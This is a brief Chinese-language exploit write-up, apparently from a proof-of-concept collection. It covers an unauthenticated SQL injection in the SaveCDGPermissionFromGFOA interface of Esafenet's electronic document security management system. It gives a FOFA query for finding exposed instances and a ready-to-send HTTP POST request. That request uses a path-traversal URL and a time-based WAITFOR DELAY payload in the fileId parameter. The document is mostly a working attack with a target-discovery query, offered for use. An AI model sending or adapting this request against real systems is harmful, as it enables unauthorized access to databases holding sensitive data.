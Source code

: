 ## 亿赛通-电子文档安全管理系统SaveCDGPermissionFromGFOA接口存在sql注入漏洞

由于亿赛通电子文档安全管理系统SaveCDGPermissionFromGFOA处fileID对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，未授权的攻击者可获取数据库敏感信息。

## fofa

```
app="亿赛通-电子文档安全管理系统"
```

## poc

```
POST /CDGServer3/js/../SaveCDGPermissionFromGFOA HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 39
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
 
fileId=1';WAITFOR DELAY '0:0:2'--&pis=1
```


